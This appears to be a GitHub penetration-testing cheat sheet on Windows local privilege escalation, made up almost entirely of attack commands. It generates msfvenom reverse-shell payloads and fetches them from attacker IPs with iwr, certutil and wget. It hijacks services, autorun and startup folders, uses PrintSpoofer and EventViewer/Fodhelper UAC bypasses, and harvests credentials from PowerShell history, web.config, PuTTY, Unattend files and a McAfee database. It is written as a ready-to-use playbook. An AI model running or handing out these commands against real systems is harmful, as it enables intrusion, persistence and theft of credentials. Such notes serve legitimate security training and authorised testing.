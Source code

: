 # Windows Enumeration and Local Privilege Escalation 








---
## Privilege Escalation

### Unquoted Service Path
-> Detection 
```
wmic service get Name,State,PathName | findstr "Program"  
sc qc <service_name>  
\\ BINARY_PATH_NAME display Unquoted Service Paths, without ""
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
```

-> Exploitation - attacker
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe > name <name_inside_the_path>.exe  
nc -nvlp <port>
```

-> Exploitation - windows
```
iwr -uri <ip>/<service_eecutable_name> -Outfile <service_executable_name>
move <name_inside_the_path>.exe <service_path>  
```
```
sc stop <service_name>
sc start <service_name>
```
or  
```
shutdown /r
```

### binPath - Services [PrivEsc]
-> Detection
```
. .\PowerUp.ps1
Get-ModifiableService -Verbose
```
or
```
Get-ModifiableService -Verbose
wmic service get Name,State,PathName | findstr "Running" | findstr "Program"  
wmic service get Name,State,PathName | findstr "Program"  
icacls <pathname>  
//(F) and (i) (F)
accesschk.exe -wuvc <service_name>
//RW Everyone  
//  SERVICE_CHANGE_CONFIG
sc qc <service_name>
```

-> Exploitation - Windows [PrivEsc]
```
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```

https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  

### SeImpersonatePrivilege
```
PrintSpoofer64.exe -i -c cmd
```
https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

### Autorun
-> Detection - windows
```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
\\FILE_ALL_ACCESS
```
-> Exploitation - kali
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\Program Files\Autorun Program"
logoff
```

### Startup Applications
-> Detection - Windows
```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F) 
\\BUILTIN\Users:(F)
```

-> msfvenom - Attacker VM
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe
```

-> Exploitation - Windows
```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”
logoff
```

### Bypass UAC
After obtaining a reverse shell on a machine with a local administrator user, it may be necessary to bypass User Account Control (UAC) to perform specific malicious actions, such as persistently installing malware, modifying security settings, or exploiting system vulnerabilities. This can be done through specialized techniques and tools designed to bypass the restrictions imposed by UAC.
https://decoder.cloud/2017/02/03/bypassing-uac-from-a-remote-powershell-and-escalting-to-system/
#### EventViewer
-> Step 1 - Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe
```

-> Step 2 - Win Owned  
```
cd C:\Windows\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```

-> Step 3 - Win Owned  
```
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\PowerUp.ps1
Invoke-AllChecks
```
`[+] Run a BypassUAC attack to elevate privileges to admin.`

-> Step 4 -Kali
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.139 LPORT=8445 -f exe > ok.exe
```

-> Step 5 - Win Owned
```
wget 192.168.119.139:805/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\Windows\tasks\shell2.exe"
Invoke-EventViewer C:\Windows\tasks\shell2.exe
```
https://raw.githubusercontent.com/CsEnox/EventViewer-UACBypass/main/Invoke-EventViewer.ps1

#### FodhelperBypass
https://raw.githubusercontent.com/winscripting/UAC-bypass/master/FodhelperBypass.ps1

### Capturing configuration file credentials
-> Powershell History  
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

-> EXploiting Saved Windows Credentials
```
cmdkey /list  
runas /savecred /user:admin cmd.exe
```

-> IIS Configuration  
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString  
type C:\inetpub\wwwroot\web.config | findstr connectionString
```
  
-> Retrieve Credentials from Software: PuTTY  
```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

-> Unattended Windows Installations
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
  
-> Identify  
```
dir /s *.db
```
-> McAfee Enterprise Endpoint Security - Credentials used during installation  

```
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

## Windows Enumeration Tools
-> PowerUp.ps1  
```
. .\PowerUp.ps1
Invoke-AllChecks
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1  

-> winPEASany.exe
```
winPEASany.exe
```
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS  

-> windows-privesc-check2.exe  
```
windows-privesc-check2.exe --dump -G
```
https://github.com/pentestmonkey/windows-privesc-check
